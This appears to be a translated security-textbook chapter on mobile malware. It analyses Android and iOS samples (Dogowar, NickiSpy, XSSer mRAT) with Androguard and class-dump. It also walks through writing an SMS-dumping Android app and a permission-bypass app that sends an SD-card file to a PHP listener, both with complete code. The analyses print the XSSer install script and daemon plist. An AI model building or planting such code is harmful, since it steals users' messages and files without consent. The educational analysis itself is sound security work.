




# 第二章 移动恶意软件攻击

在本章中，我们将涵盖：

+   分析 Android 恶意软件样本

+   使用 Androguard 进行恶意软件分析

+   从头开始编写 Android 自定义恶意软件

+   Android 权限模型绕过

+   反向工程 iOS 应用程序

+   在 iOS 环境中分析恶意软件

# 介绍

我们可能对攻击我们计算机的病毒了解很多，但是针对我们移动设备的病毒呢？

也许你会惊讶地发现，针对移动设备的恶意软件，也就是移动恶意软件，正在增长，感染了所有主要的智能手机平台。

在本章中，我们将了解恶意软件，它们如何影响我们的智能手机，如何分析它们以及如何创建我们自己的样本。

# 分析 Android 恶意软件样本

让我们从分析一个简单的基于 Android 的恶意软件应用开始，名为**Android.Dogowar**。这个恶意软件是 Android 游戏应用*Dog Wars*的重新打包版本，可以从第三方应用商店下载，并且在分析过程中必须手动安装到 Android 设备上。

Dog Wars 是一个用户可以培育、训练和与*虚拟狗*战斗的游戏。这个游戏引起了动物权利抗议者的强烈抗议，通过公开抗议和写信活动。在这些尝试似乎对说服开发者停止应用没有太大效果后，一群抗议者针对最终用户传达他们的信息。

原始的 Dog Wars 应用（Beta 0.981）被重新打包为恶意软件，并放在几个第三方应用商店供下载。


在安装过程中，恶意软件应用要求用户授予短信权限等。

安装后，恶意软件的显示图标几乎与合法应用的图标相同，唯一的区别是恶意软件应用在应用图标中显示`PETA`而不是`BETA`。


打开后，该应用向受感染设备联系人列表中的所有人发送了以下消息的短信：`我喜欢伤害小动物，只是想让你知道。`

## 准备工作

如前一章所述，Android Studio/独立 SDK 工具和 JDK v7 或更新版本应该已安装并可用。

我们主要将使用三个工具进行分析：

+   **Apktool**：这个工具将用于反编译 APK 文件以获取反编译代码。可以从 http://ibotpeaches.github.io/Apktool/ 获取这个工具。

+   **Dex2Jar**：这个工具将 Dalvik 可执行（`.dex`）文件转换为 JAR 文件。可以从 http://sourceforge.net/projects/dex2jar/ 下载这个工具。

+   **JD-GUI**：这个工具读取 JAR 文件并显示其中的代码。访问 http://jd.benow.ca/ 下载 JD-GUI。

## 如何做...

让我们从分析恶意 APK 开始我们的分析。我们首先通过反汇编恶意 APK 来开始。

1.  使用以下命令将 APK 转换为 JAR 文件：

    ```
    **/path/to/dex2jar/d2j-dex2jar.bat /path/to/AndroidDogowar.apk**

    ```

    如下截图所示：

    

    我们已经成功地将 APK 转换为 JAR 文件进行代码分析。现在，我们需要阅读代码，识别其中的恶意元素。我们将使用 JD-GUI 来完成这个任务。

1.  导航到 JD-GUI 安装目录并打开应用程序。打开新创建的 `AndroidDogowar-dex2jar.jar`，这就是我们看到的内容：

1.  由于原始应用程序是一个游戏应用，我们的分析将从搜索诸如 `url`、`http`、`sms` 等关键词开始。

    在快速搜索后，我们发现感染的类是 `Rabies`，位于 `dogbite` 包下，因为它导入了 `android.telephony.SmsManager` 类：

    

1.  通过进一步分析类文件，我们可以看到 `onStart` 函数调用了 `sendTextMessage` 发送一条标题为 `I take pleasure in hurting small animals, just thought you should know that` 的短信。

## 它是如何工作的...

恶意代码被注入为一个名为 `Dogbite` 的包。该包定义了一个名为 `Rabies` 的服务，该服务在受损 Android 设备启动时在后台启动，并执行核心功能。一旦服务启动，它会向你手机上联系人列表中的所有人发送短信。

该应用还向 `73882` 发送了一条包含词语 `text` 的短信，显然这将受损设备的用户注册为 **PETA**（**美国伦理对待动物协会**）运营的警报服务用户。

这是它的工作原理：

以下代码遍历每个联系人：

```
Cursor localCursor1 = getContentResolver().query(ContactsContract.Contacts.CONTENT_URI, null, null, null, null); 

```

随后的代码用于将联系人列表加载到 `str` 字符串中：

```
if (localCursor1.getCount() > 0); 
    String str; 
    do 
    { 
      if (!localCursor1.moveToNext()) 
        return; 
      str = localCursor1.getString(localCursor1.getColumnIndex("_id")); 
    } 
    while (Integer.parseInt(localCursor1.getString(localCursor1.getColumnIndex("has_phone_number"))) <= 0); 

```

然后，它使用联系人内容提供者来返回加载的电话号码：

```
Cursor localCursor2 = getContentResolver().query(ContactsContract.CommonDataKinds.Phone.CONTENT_URI, null, "contact_id = " + str, null, null);  

```

以下代码用于向列表中的所有联系人发送短信：

```
localSmsManager.sendTextMessage(localCursor2.getString(localCursor2.getColumnIndex("data1")), null, "I take pleasure in hurting small animals, just thought you should know that", null, null); 

```

最后，这段代码将用户订阅到 PETA 的短信提醒服务：

```
if (!localCursor2.moveToNext()) 
      { 
        localSmsManager.sendTextMessage("73822", null, "text", null, null); 
        break; 
      } 

```

## 还有更多内容...

如果你精通 **smali**，你可以使用 `apktool` 反编译应用程序并分析 smali 文件中的模式。

要使用 `apktool` 进行反编译，请使用以下命令：

```
**apktool d C:\<path_to_apk>**

```

该命令将创建一个与 APK 名称完全相同的目录，在该目录下我们可以找到反编译后的文件。

# 使用 Androguard 进行恶意软件分析

Androguard 是一个基于 Python 的工具，用于分析 Android 应用程序。它的功能使恶意软件分析变得更加轻松。

在本教程中，我们将介绍 Androguard 及其各种功能。

## 准备工作

确保你的机器上已安装 Python。可以从[`www.python.org/ftp/python/2.7.10/python-2.7.10.msi`](https://www.python.org/ftp/python/2.7.10/python-2.7.10.msi) 下载适用于 Windows 的 Python 2.7.10。所有 Python 版本都可以从[`www.python.org/downloads/`](https://www.python.org/downloads/) 下载。

从 GitHub 下载 Androguard，网址为[`github.com/androguard/androguard`](https://github.com/androguard/androguard)，并将其放在你选择的目录中。

转到 Androguard 目录，并从命令提示符或终端运行以下命令：

```
**Python setup.py install**

```

我们将使用经过重新打包的 NickiSpy 恶意软件作为我们的示例。

NickiSpy 在 2011 年左右获得了相当大的声誉。它将通话记录保存到设备的 SD 卡，并将设备的 IMEI 发送到中国的一个电话号码。此外，它还记录了设备的 GPS 坐标，并与位于中国的远程服务器建立连接。

## 如何操作...

现在我们已经安装了 Androguard，让我们开始分析我们的恶意软件：

1.  在终端中运行以下命令：

    ```
    **python androlyze.py -s**

    ```

    该命令启动了它自己的输入提示符。现在让我们定义 APK 的路径以及我们希望使用的反编译器类型。

1.  输入此命令到提示符中，并将 `path_to_apk` 替换为我们想要分析的 APK 的路径：

    ```
    **a,d,dx = AnalyzeAPK("path_to_apk", decompiler="dad")**

    ```

    这是在下面截图中显示的内容：

    

1.  在输入提示符中使用以下命令，获取应用程序使用的所有权限：

    ```
    **a.get_permissions()**

    ```

    这是前面命令的输出：

    

    从权限来看，可以明显看出该应用程序请求读取/写入短信和联系人、访问 GPS、录音、访问来电等，这足以引起许多警报。

1.  让我们进一步分析类名。请在输入提示符中运行以下命令：

    ```
    **d.get_classes_names()**

    ```

    查看以下输出：

    

1.  当我们查看 `CallListener`、`SMSListener`、`RecorderService`、`GPSService` 等类时，我们进一步加强了最初的印象。现在我们有足够的理由相信目标应用程序被感染了。

1.  我们可以进一步列出应用程序中定义的所有字符串和方法作为输出，使用这些命令：

    ```
    **d.get_strings()**
    **d.get_methods()**

    ```

1.  若要一次查看所有这些信息，请在命令提示符中使用以下命令：

    ```
    **python androapkinfo.py -i <path_of_apk>**

    ```

    检查前面命令的输出：

    

    一项看似棘手的任务是找出一个应用程序是否真的是恶意软件，还是一个合法的应用程序。Androguard 提供了一个选项，允许我们比较两个 Android 应用程序，使用一个名为 **Androdiff** 的工具。

    Androdiff 是一个与 Androguard 一起捆绑的 Python 脚本，用于提取和观察两个 Android 应用程序之间的差异。

1.  使用以下命令：

    ```
    **python androdiff.py -i <first apk> <second apk>** 

    ```

    让我们对一个简单的 `Hello World` 应用程序和伪装成 `Hello World` 应用程序的恶意软件运行该命令。

    现在，我们可以通过仔细查看输出结果来分析结果。

    以下块显示了有`3536`个相同的元素，这意味着这两个应用程序实际上非常相似。还有一个相似的元素，表示某些代码可能有改进的空间，最后是`3`个新元素，表示一个应用程序中存在附加代码：

    

1.  扫描输出内容，进一步查看，我们看到以下内容：

这向我们展示了新的方法`backupSMS`和`generateCSVFileForSMS`已经添加到恶意软件应用程序中，最终形成了`SMSCopy`应用。

## 还有更多内容...

要阅读更多关于 Android 恶意软件和相关分析的书籍，推荐一本好书是*Android 恶意软件与分析*，*Auerbach 出版公司*（[`www.crcpress.com/product/isbn/9781482252194`](https://www.crcpress.com/product/isbn/9781482252194)）。

# 从零开始为 Android 编写自定义恶意软件

在这里，我们将学习如何为 Android 平台创建简单的恶意软件。我们将创建一个简单的恶意软件，复制用户短信应用中的所有文本消息，并将它们作为`.csv`文件存储在 SD 卡中。

## 正在准备中

确保你已经按照第一章中的所有步骤创建了一个 Android 应用程序。

## 操作步骤...

一旦应用程序成功创建，你可以按照以下步骤操作：

1.  打开 Android Studio 并创建一个名为`SMSCopy`的新项目：

1.  我们将使用 API15：Android 4.0.3 作为目标平台。你也可以选择其他你喜欢的版本。

1.  选择**空白活动**并点击**完成**。你的项目工作空间现在应该像这样：

1.  在左侧窗口中，导航到并打开`app/java/com.your_package_name/MainActivity`文件。

1.  在最后一个闭合括号之前（文件末尾）添加以下代码：

    ```
       public ArrayList<String> smsBuffer = new ArrayList<String>(); 
        String smsFile = "SMS"+".csv"; 
        private void  backupSMS(){ 
         smsBuffer.clear(); 
         Uri mSmsinboxQueryUri = Uri.parse("content://sms"); 
         Cursor cursor1 = getContentResolver().query(mSmsinboxQueryUri, new String[] {
         "_id", "thread_id", "address", "person", "date", "body", "type" }, null, null, null); 
        String[] columns = new String[] { "_id", "thread_id", "address", "person", "date", "body", "type"}; 
        if (cursor1.getCount() > 0) { 
          String count = Integer.toString(cursor1.getCount()); 
          Log.d("Count", count); 
          while (cursor1.moveToNext()) { 
          String messageId = cursor1.getString(cursor1.getColumnIndex(columns[0])); 
          String threadId = cursor1.getString(cursor1.getColumnIndex(columns[1])); 
          String address = cursor1.getString(cursor1.getColumnIndex(columns[2])); 
          String name = cursor1.getString(cursor1.getColumnIndex(columns[3])); 
          String date = cursor1.getString(cursor1.getColumnIndex(columns[4])); 
          String msg = cursor1.getString(cursor1.getColumnIndex(columns[5])); 
          String type = cursor1.getString(cursor1.getColumnIndex(columns[6])); 
          smsBuffer.add(messageId + "," + threadId + "," + address + "," + name + "," + date + " ,
          " + msg + " ,"+ type); 
         } 
         generateCSVFileForSMS(smsBuffer); 
        } 
      } 
      private void generateCSVFileForSMS(ArrayList<String>list) 
      { 
       try 
       { 
        String storage_path = Environment.getExternalStorageDirectory().toString()+File.separator+ smsFile; 
        System.out.println("Balle!!!!!!"); 
        FileWriter write = new FileWriter(storage_path); 
        write.append("messageId, threadId, Address, Name, Date, msg, type"); 
        write.append('\n'); 
        for (String s : list) 
        { 
         write.append(s); 
         write.append('\n'); 
        } 
        write.flush(); 
        write.close(); 
       } 
       catch (NullPointerException e) 
       { 
         System.out.println("Nullpointer Exception "+e); 
       } 
       catch (IOException e) 
       { 
        e.printStackTrace(); 
       } 
       catch (Exception e) 
       { 
        e.printStackTrace(); 
       } 
      } 

    ```

1.  现在，在`onCreate`方法中的`setContentView(R.layout.activity_main);`代码行后添加以下行：

    ```
    backupSMS(); 

    ```

1.  确保在`Mainactivity.java`文件中有以下`import`语句：

    ```
    import android.database.Cursor; 
    import android.net.Uri; 
    import android.os.Bundle; 
    import android.os.Environment; 
    import android.support.v7.app.ActionBarActivity; 
    import android.util.Log; 
    import android.view.Menu; 
    import android.view.MenuItem; 
    import java.io.File; 
    import java.io.FileWriter; 
    import java.io.IOException; 
    import java.util.ArrayList; 

    ```

1.  导航到`app** | **manifests** | **AndroidManifest.xml`并在`</application>`标签下添加以下行：

    ```
    <uses-permission android:name="android.permission.WRITE_SMS"/> 
    <uses-permission android:name="android.permission.READ_SMS"/> 
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/> 
    <uses-permission android:name="android.permission.MOUNT_UNMOUNT_FILESYSTEMS"/> 

    ```

1.  现在，在模拟器或连接的设备上运行项目。你将看到设备上有一个名为`SMSCopy`的应用程序。

1.  运行应用程序后，我们得到一个显示简单`Hello World`文本的页面。让我们看看恶意软件是否在后台实际运行了。

1.  在命令提示符中，运行以下命令：

    ```
    **adb shell**

    ```

1.  现在你应该有一个 shell 提示符。在提示符中输入：

    ```
    **cd sdcard**
    **ls**

    ```

1.  现在，我们看到在设备的 SD 卡目录中有一个名为`SMS.csv`的文件。在 shell 中运行以下命令：

    ```
    **cat SMS.csv**

    ```

    现在我们可以看到所有的短信已经成功复制到文件中并存储在 SD 卡上：

    

## 它是如何工作的...

我们将目标文件名指定为`SMS.csv`，并创建一个名为`backupSMS()`的函数，在其中我们通过内部调用`content://sms` URI 访问设备的短信。然后，我们创建一个用于查询短信数据并定义各种字段的游标：`thread_id`、`address`、`person`和`date`，如下所示：

```
public ArrayList<String> smsBuffer = new ArrayList<String>(); 
  String smsFile = "SMS"+".csv"; 
  private void  backupSMS(){ 
    smsBuffer.clear(); 
    Uri mSmsinboxQueryUri = Uri.parse("content://sms"); 
    Cursor cursor1 = getContentResolver().query(mSmsinboxQueryUri, new String[] { "_id", "thread_id", "address", "person", "date", "body", "type" }, null, null, null); 
    String[] columns = new String[] { "_id", "thread_id", "address", "person", "date", "body", "type" }; 

```

接下来，我们将光标移动到递归读取所有短信数据，并将其存储在定义的字符串数组中：

```
if (cursor1.getCount() > 0) { 
  String count = Integer.toString(cursor1.getCount()); 
  Log.d("Count", count); 
  while (cursor1.moveToNext()) { 
    String messageId = cursor1.getString(cursor1.getColumnIndex(columns[0])); 
    String threadId = cursor1.getString(cursor1.getColumnIndex(columns[1])); 
    String address = cursor1.getString(cursor1.getColumnIndex(columns[2])); 
    String name = cursor1.getString(cursor1.getColumnIndex(columns[3])); 
    String date = cursor1.getString(cursor1.getColumnIndex(columns[4])); 
    String msg = cursor1.getString(cursor1.getColumnIndex(columns[5])); 
    String type = cursor1.getString(cursor1.getColumnIndex(columns[6])); 

```

现在，我们已经将所有值分开存储在单独的数组中，我们将它们添加到我们预定义的`smsBuffer`缓冲区中，并将它们传递给另一个函数`generateCSVFileForSMS()`：

```
    smsBuffer.add(messageId + ","+ threadId+ ","+ address + "," + name + "," + date + " ," + msg + " ," + type); 
  } 
  generateCSVFileForSMS(smsBuffer); 
} 

```

让我们看看`generateCSVFileForSMS()`函数：

```
  String storage_path = Environment.getExternalStorageDirectory().toString() + File.separator + smsFile; 
  FileWriter write = new FileWriter(storage_path); 
  write.append("messageId, threadId, Address, Name, Date, msg, type"); 
  write.append('\n'); 
  for (String s : list) 
  { 
    write.append(s); 
    write.append('\n'); 
  } 
  write.flush(); 
  write.close(); 
} 

```

这本质上指示 Android 设备定位外部存储路径，将文件名`SMS.csv`附加到其中，并将其分配给`storage_path`变量。

然后打开文件写入器，并将所有数组值写入生成的文件。

## 还有更多...

我们可以通过创建一个接收和存储输入的远程服务器来扩展恶意软件的功能，并通过 GET 或 POST 请求从目标 Android 设备将此文件发送到远程服务器。

## 另请参阅

+   尝试以相同的方式玩弄联系人、短信、彩信和浏览数据，通过探索`android.content`。欲了解更多信息，请访问[`developer.android.com/reference/android/content/package-summary.html`](http://developer.android.com/reference/android/content/package-summary.html)。

# Android 中的权限模型绕过

到目前为止，我们知道所有 Android 应用程序都需要明确的权限来执行某些功能或处理某些数据。这些权限在打包在 APK 内的`AndroidManifest.xml`文件中定义。

读取文本消息的典型权限看起来像这样：

```
<uses-permission android:name="android.permission.READ_SMS" /> 

```

显然，一个简单的应用程序如果需要权限来访问 GPS 位置、读取联系人、读取短信和写入外部存储，会引起怀疑。

现在，如果一个应用程序不需要任何特殊权限，那它会被认为是一种良性应用程序，对吧？

在这个示例中，我们学习了一种简单的方法来执行恶意活动，而无需我们的应用程序需要任何特殊权限。

## 准备工作

我们只需要安装和运行 Android Studio 和 SDK，如前面的示例中所解释的那样。

我们需要创建一个监听 Web 服务器，我们将使用 XAMPP，可以从[`www.apachefriends.org/index.html`](https://www.apachefriends.org/index.html)下载。

## 如何做...

让我们制作一个应用程序，从 SD 卡读取文件并将其发送到远程服务器，而无需任何特殊权限。我们首先在 SD 卡上创建一个名为`sensitive.txt`的文件：

1.  发出以下命令以访问设备 shell：

    ```
    **adb shell**

    ```

1.  导航到 SD 卡并创建带有内容`Username:Akshay. Password:secret123`的`sensitive.txt`，输入以下命令：

    ```
    **cd sdcard**
    **echo "Username: Akshay Password: secret123" > sensitive.txt**

    ```

1.  验证文件是否已创建：

    ```
    **cat /sdcard/sensitive.txt**

    ```

    

现在我们已经准备好敏感文件，让我们编写代码来窃取该文件并将其上传到服务器。按照前面的食谱步骤创建一个新项目并打开基本项目窗口，然后执行以下步骤：

1.  我们现在将添加代码来读取`sensitive.txt`并将其数据上传到远程服务器。

1.  在左侧窗口中，导航到并打开`MainActivity.java`文件，路径为`app** | **java** | **com."your_package_name"** | **MainActivity`。

1.  将以下代码添加到`protected void onCreate(Bundle savedInstanceState)`函数内，`setContentView(R.layout.activity_main);`行下方：

    ```
    FileInputStream in; 
      BufferedInputStream buf; 

      Intent intent = getIntent(); 
      Bundle extras = intent.getExtras(); 

      StringBuffer sb = new StringBuffer(""); 
      String line = ""; 
      String NL = System.getProperty("line.separator"); 
      String str = "cat /mnt/sdcard/sensitive.txt"; 

      Process process = null; 
      try { 
        process = Runtime.getRuntime().exec(str); 
      } catch (IOException e) { 
         throw new RuntimeException(e); 
      } 

     BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream())); 

      int read; 
      char[] buffer = new char[4096]; 
      StringBuffer output = new StringBuffer(); 
      try { 
        while ((read = reader.read(buffer)) > 0) { 
          output.append(buffer, 0, read); 
        } 
      } catch (IOException e) { 
        throw new RuntimeException(e); 
      } 

      try { 
        reader.close(); 
      } catch (IOException e) { 
         throw new RuntimeException(e); 
      } 
      try { 
        process.waitFor(); 
      } catch (InterruptedException e) { 

      } 
      String data = output.toString(); 

      startActivity(new Intent(Intent.ACTION_VIEW, Uri.parse("http://10.0.2.2/input.php?input=" + data))); 

    ```

    我们在代码中使用了`http://10.0.2.2`作为我们的网页服务器地址，因为我们在模拟器中测试此应用程序，并且在尝试通过模拟器访问时，主机的 IP 地址始终是`10.0.2.2`。如果你使用的是实际的 Android 设备进行测试，确保设备与工作站连接，并将 IP 地址替换为工作站的 IP 地址。

1.  确保文件中包含以下导入：

    ```
    import android.content.Intent; 
    import android.net.Uri; 
    import android.support.v7.app.ActionBarActivity; 
    import android.os.Bundle; 
    import android.util.Log; 
    import android.view.Menu; 
    import android.view.MenuItem; 
    import java.io.*; 

    ```

    我们现在已经成功创建了一个恶意软件，具有无法读取`sensitive.txt`文件的权限，准备将其上传到远程服务器。现在，让我们创建我们的监听页面。

1.  创建一个名为`input.php`的文件，并添加以下代码：

    ```
    <?php 
        $File = "output.txt";  
        $Handle = fopen($File, 'w'); 
        $Data =  $_GET['input'];  
        fwrite($Handle, $Data); 
        fclose($Handle);  
    } 
    ?> 

    ```

1.  将此文件保存在 XAMPP 安装目录中的`htdocs`文件夹中。另外，创建一个空白文件`output.txt`并保存。

1.  打开 XAMPP 控制面板并启动 Apache 服务：

1.  现在我们的设置已经准备好，让我们运行我们的应用程序。在目标设备上运行应用程序后，打开 XAMPP 安装目录，并找到`output.txt`文件：

## 它是如何工作的...

以下代码创建一个文件输入流读取器来读取`sensitive.txt`并创建一个缓冲区来存储内容：

```
FileInputStream in; 
BufferedInputStream buf; 
Intent intent = getIntent(); 
Bundle extras = intent.getExtras(); 
StringBuffer sb = new StringBuffer(""); 

```

我们在 Android 设备上执行以下命令：

```
**cat /mnt/scard/sensitive.txt**

```

以下代码正是实现此功能的代码：

```
process = Runtime.getRuntime().exec(str); 

```

剩余的代码用于读取文件的每一行，并将其存储在`str`字符串中：

```
BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream())); 
int read; 
char[] buffer = new char[4096]; 
StringBuffer output = new StringBuffer(); 
  try { 
    while ((read = reader.read(buffer)) > 0) { 
      output.append(buffer, 0, read); 
    } 
  } catch (IOException e) { 
      // TODO Auto-generated catch block 
    throw new RuntimeException(e); 
  } 

  try { 
    reader.close(); 
  } catch (IOException e) { 
    // TODO Auto-generated catch block 
    //e.printStackTrace(); 
    throw new RuntimeException(e); 
  } 
  // Waits for the command to finish. 
  try { 
    process.waitFor(); 
  } catch (InterruptedException e) { 
    // TODO Auto-generated catch block 
    //e.printStackTrace(); 
  } 
  String data = output.toString(); 

```

最后，我们通过 GET 方法将捕获的数据发送到服务器：

```
startActivity(new Intent(Intent.ACTION_VIEW, Uri.parse("http://10.0.2.2/input.php?input=" + data))); 

```

## 还有更多...

在 Android 权限绕过、获取 root 权限和扩展权限方面还有很多可以探索的内容。请参考*另见*部分中提到的链接。

## 另见

+   [`hackinparis.com/data/slides/2012/Georgia-androidpermissions.pdf`](https://hackinparis.com/data/slides/2012/Georgia-androidpermissions.pdf)

# 逆向工程 iOS 应用程序

在本食谱中，我们将学习如何在 iOS 平台上进行逆向工程。

## 准备中

目标设备需要越狱才能顺利进行逆向工程活动。

从[www.i-funbox.com](http://www.i-funbox.com)安装**i-Funbox**到你的计算机。i-Funbox 是一个 iPhone、iPad 和 iPod Touch 的应用管理工具。我们将使用此工具进行设备和应用分析。

从 https://code.google.com/p/networkpx/wiki/class_dump_z 下载 class_dump_z 工具。

## 操作方法...

以下步骤帮助你在 iOS 平台上进行逆向工程：

1.  使用 USB 电缆将越狱设备连接到你的工作站。

1.  打开 i-Funbox 应用程序。界面应如下所示：

1.  让我们在设备上安装一个恶意软件应用程序，并通过 i-Funbox 探索它。

1.  在你的计算机文件系统中定位恶意软件。

1.  在 i-Funbox 的左侧面板中，点击**Cydia 应用安装**。屏幕中央出现一个空白区域：

1.  现在，将恶意软件拖放到空白区域：

1.  为了完成安装，只需重启设备。就这样！恶意软件已安装并准备好进行分析。

1.  现在解压`.deb`文件以查看包的内容。解压后的目录包含一个名为`data.tar`的文件，可以进一步解压到`data`目录。

    我们现在进一步探索到`/data/bin`，在这里我们找到了三个文件：

    +   com.xsser.0day.iphone.plist

    +   xsser.0day_t

    +   xsser.0day_t.sh

1.  在 i-Funbox 中，点击**原始文件系统**：

    由于我们知道其中一个文件是一个 shell 文件，接下来我们检查该文件是否已经作为二进制文件安装到设备上。

1.  导航至`bin`目录。我们看到该 shell 文件实际上位于 bin 目录中，以及之前识别的其他文件。越狱设备默认会监听一个 SSH 服务器，用户为`root`，密码为`alpine`。

1.  在命令提示符/终端中，输入以下命令：

    ```
    **ssh root@<ip_of_device>**

    ```

1.  当提示输入密码时，输入`alpine`。最重要的要求之一是能够查看 iOS 应用程序的源代码。可以通过一个名为`class_dump-z`的工具来实现这一点。

1.  导航至 `class_dump_z` 所在的目录。

1.  我们将使用一个预安装的应用程序来实现这一目标。

1.  使用 i-Funbox，导航到应用程序目录，点击**Contacts~iphone**，然后点击**复制到 PC**。选择你电脑上的目标目录，并点击**保存**：

1.  现在让我们转储这个应用程序的类。导航至`class_dump_z`目录，并执行以下命令：

```
**class-dump-z.exe "C:\Akshay\output\ios\Contacts~iphone.app\Contacts~iphone" > Contacts-class_dump.txt** 

```

你的输出应如下所示：



我们现在已经获取了所有类、方法以及相关信息的转储数据，供我们分析使用。

以下代码段展示了一个名为`SearchRequestHistoryItem`的类，它继承自`PersistentSearchRequestHistoryItem`：

```
@interface SearchRequestHistoryItem : PersistentSearchRequestHistoryItem <HistoryItem> { 
} 
@property(readonly, assign, nonatomic) BOOL hasMultipleLocations; 
-(id)displayQuery; 
-(int)type; 
-(unsigned)hash; 
-(BOOL)isEqual:(id)equal; 
-(id)initWithRequest:(id)request displayQuery:(id)query location:(id)location hasMultipleLocations:(BOOL)locations; 
-(id)initWithRequest:(id)request displayQuery:(id)query location:(id)location; 
@end 

```

## 它是如何工作的...

恶意软件通常会创建可执行文件，这些文件被添加到系统目录并赋予可执行权限。

这些可执行文件反过来会添加属性文件，尝试访问和控制启动守护进程，读取敏感数据，甚至尝试将敏感数据上传到远程服务器。

# 在 iOS 环境中分析恶意软件

我们将查看 XSSer mRAT iOS 恶意软件样本，进行初步分析。如果已安装，该恶意软件将在受害者手机的后台运行，受感染设备的内容将被发送到看似由外国政府或组织控制的远程服务器。XSSer mRAT 可以窃取短信、通话记录、位置信息、照片、通讯录、腾讯的中国即时通讯应用程序的数据以及 iOS 钥匙串中的密码。

## 准备中

我们需要解压工具，如 7-Zip、WinZip 等。

## 如何操作...

在 iOS 环境中分析恶意软件，请执行以下步骤：

1.  我们解压`.deb`文件以查看包的内容。解压后的目录包含一个名为`data.tar`的文件，可以进一步解压到`data`目录。

1.  我们现在进一步探查，进入/data/bin，找到三个文件：

    +   com.xsser.0day.iphone.plist

    +   xsser.0day_t

    +   xsser.0day_t.sh

1.  让我们看一下`xxser.0day_t.sh`文件。以下代码被揭示：

    ```
    #!/bin/sh
    cp /bin/xsser.0day_t /bin/xsser.0day
    cp /bin/com.xsser.0day.iphone.plist /Library/LaunchDaemons/com.xsser.0day.iphone.plist
    chmod -R 0755 /bin/xsser.0day
    chmod -R 0755 /Library/LaunchDaemons/com.xsser.0day.iphone.plist
    chown root /Library/LaunchDaemons/com.xsser.0day.iphone.plist
    launchctl load /Library/LaunchDaemons/com.xsser.0day.iphone.plist

    ```

    代码分析显示，应用程序试图将二进制包`xsser.0day_t`复制到设备的`/bin`目录，这表明该二进制文件用于执行恶意命令。

    下一行揭示了恶意软件将 plist 文件复制到`/Library/LaunchDaemons`目录，以便在系统启动和重启时启动应用程序代码。

    我们还看到，通过`chmod 0755`命令授予了`755`权限，这允许所有人读取和执行文件，文件所有者可以写入文件，使用以下代码：

    ```
    **chown root /Library/LaunchDaemons/com.xsser.0day.iphone.plist**
    **launchctl load /Library/LaunchDaemons/com.xsser.0day.iphone.plist**

    ```

1.  该应用程序现在使用`launchctl`与`launchd`接口，以加载`daemons/agents`并通过其`plist`文件控制`launchd`。

1.  让我们来看一下 plist 文件。在记事本中打开 plist 文件，内容如下：

    ```
    <plist version="1.0"> 
    <dict>  
      <key>KeepAlive</key> 
      <true/> 
      <key>Label</key> 
      <string>com.xsser.0day.iphone</string> 
      <key>Program</key>  
      <string>/bin/xsser.0day</string> 
      <key>RunAtLoad</key> 
      <true/> 
    </dict> 
    </plist> 

    ```

    这个 plist 文件将`xsser.0day`二进制文件定义为具有由 launch daemon 启动能力的程序。

1.  该过程本质上是安装并加载了一个本地服务。

1.  当应用程序运行时，它发送 HTTP GET 请求到[www.xsser.com/CheckLibrary.aspx](http://www.xsser.com/CheckLibrary.aspx)以获取库版本。

## 它是如何工作的...

当应用程序在启动时运行时，二进制文件会检查库的版本并将其保存到名为`/bin/iVersion`的文件中。如果版本不匹配，它将下载并更新 iLib 版本。主二进制文件还会在`/bin/debuglogFile.log`中进行一些最小化的日志记录。

然后，应用程序通过 GET 请求发送数据，如操作系统版本、MAC 地址、设备版本、电话号码、IMSI 和 IMEI 码。

服务器响应 GET 请求，返回一组将在设备上执行的命令。这些命令包括上传以下文件：

```
**/var/mobile/Library/AddressBook/AddressBook.sqlitedb**
